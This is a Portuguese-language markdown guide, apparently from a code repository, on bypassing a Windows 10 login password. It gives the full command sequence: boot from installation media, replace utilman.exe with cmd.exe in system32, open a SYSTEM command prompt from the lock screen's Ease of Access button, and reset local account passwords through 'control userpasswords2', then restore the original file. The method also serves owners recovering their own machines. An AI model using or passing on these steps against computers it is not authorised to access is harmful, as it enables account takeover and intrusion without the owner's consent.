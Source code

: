 # Quebrar senha do Windows 10 com Prompt de Comando.

É necessário ter uma mídia de instalação seja ela pendrive ou CD.

Você vai acessar o ela como se fosse formatar a máquina, mas ao iniciar você clica em avançar e depois em reparar o computador.

Após isso soluções de problemas -> Opções avançadas -> Prompt de Comando

Abrindo o CMD você vai acessar o diskpart, pelo comando diskpart mesmo, em seguinda utiliza o comando list volume para descobrir aonde está a pasta do system32,
após pode sair utilizando o comando exit para sair apenas do diskpart.

~~~bash
diskpart
list volume
exit
~~~

Agora referenciar a letra do onde está instalado o Windows para acessar os diretorios.

~~~bash
C:
cd windows
cd system32
~~~

Utilizaremos o comando ren e copy para fazer as altereções na facilidade de acesso da tela de bloqueio.

Acessando a pasta system32 pelos comandos informados vamos substituir o utilman com o comando

~~~bash
ren utilman.exe utilmanoriginal.exe.
~~~

Agora vamos copiar o cmd e renomear utilizando o seguinte comando

~~~~bash
copy cmd.exe utilman.exe.
~~~~

Para chegar se o passo deu certo vamos usar o comando dir util*, ele deverá mostrar que tem 3 arquivos.

~~~bash
dir util*
~~~

Aqui já pode sair do CMD e reniciar a máquina.

Quando a máquina iniciar pode apertar no atalho de facilidade de acesso que ja vai abrir o CMD na raiz do system32.

Uma vez aberto utilzar o comando

~~~bash
control userpasswords2.
~~~

Vai abrir a tela de usuários locais e você terá acesso para alterar a senha.

Para desfazer o atalho acesso o prompt novamente utilzando o a midia de instalação e chegar na pasta do system32, uma vez lá vamos deletar a cópia criada do cmd com o comando: del.

~~~bash
del utilman.exe
~~~

Agora vamos renomear o atalho da facilidade de acesso orginal de volta.

~~~bash
ren utilmanoriginal.exe utilman.exe
~~~

Fim do processo.

